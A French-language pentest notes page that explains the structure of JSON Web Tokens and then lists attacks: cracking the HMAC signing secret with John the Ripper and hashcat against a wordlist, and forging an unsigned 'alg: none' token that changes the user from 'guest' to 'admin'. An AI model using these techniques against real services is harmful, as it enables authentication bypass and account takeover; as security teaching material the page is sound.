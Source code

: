 # JWT session Token

Les JWT se composent de trois parties séparées par des points (`.`) :

* **En-tête**
* **Charge utile (payload)**
* **Signature**

Par conséquent, un JWT typique ressemble à ceci.

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk

Examinons ces différents composants.

## En-tête

L'en-tête se compose _généralement_ de deux parties : le type de jeton, qui est JWT, et l'algorithme de hachage, tel que HMAC SHA256 ou RSA.

Exemple :

```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```

Cette syntaxe JSON est encodée en **Base64Url** pour former la première partie du jeton JWT.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
```

## Charge utile

La deuxième partie du jeton est la charge utile, qui contient les revendications. Les revendications dépendent d'une entité (généralement, l'utilisateur), avec des métadonnées supplémentaires. Trois types de revendications sont disponibles : _réservées_, _publiques_ et _privées_.

* **Les revendications réservées** : Ce type regroupe des revendications prédéfinies, qui ne sont pas obligatoires, mais recommandées, conçues pour fournir un ensemble de revendications utiles et interopérables. Elles peuvent inclure : **iss** (issuer ou émetteur), **exp** (délai d'expiration), **sub** (sujet), **aud** (audience), entre autres.

> Remarquez que les noms des revendications ne comportent que trois caractères, car un jeton JWT doit être compact.

* **Les revendications publiques** : Ce type peut être défini à volonté par les utilisateurs de jetons JWT. Mais pour éviter les collisions, ils doivent être définis dans le registre IANA JSON Web Token ou être définis comme une URI qui contient un espace de nom résistant aux collisions.
* **Les revendications privées** : Ce type réunit des revendications personnalisées, qui servent à partager des informations entre les parties qui ont convenus entre elles de les utiliser.

Exemple :&#x20;

```json
{
  "username": "guest"
}
```

La charge utile est ensuite codée en **Base64Url** pour former la deuxième partie du JWT.

```
eyJ1c2VybmFtZSI6Imd1ZXN0In0
```

## Signature

La signature prend en entrées :

* l'en-tête encodée en Base64URL
* la charge utile encodée en Base64URL
* un code secret

L'algorithme utilisé pour générer la signature est celui précisé dans l'en-tête.

```
HMACSHA256(
  base64UrlEncode(header) + '.' +
  base64UrlEncode(payload),
  secret)
```

La signature sert à vérifier que l'expéditeur du JWT est bien celui qu'il prétend être et à s'assurer que le message n'a pas été modifié en cours de route.

## Attaques

### Casser le secret associé à la clé

Via John :&#x20;

```
john jwt.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256
john jwt.txt --show
```

Via Hashcat :

```
hashcat -m 16500 -a 0 jwt.txt /usr/share/wordlists/rockyou.txt 
```

### Passer le type d'algorithme de signature à "None"

* Décoder l'en-tête légitime

```bash
echo eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9 | base64 -d                                    
{"typ":"JWT","alg":"HS256"}#                                                         
```

* Décoder la charge utile légitime

```bash
echo eyJ1c2VybmFtZSI6Imd1ZXN0In0 | base64 -d
{"username":"guest"}base64: invalid input
```

\-> l'erreur est liée au fait que l'algorithme utilise la base64URL avec la suppression du padding "=" du base64 original

* Encoder une en-tête malveillante avec l'algorithme de signature à none

```bash
echo -n '{"typ":"JWT","alg":"none"}' | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=

```

* Encoder une charge utilie malveillante

```bash
echo -n '{"username":"admin"}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIn0=
```

* Forger un token en supprimant les "=" et en gardant uniquement le dernier "." pour la partie signature

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.
```
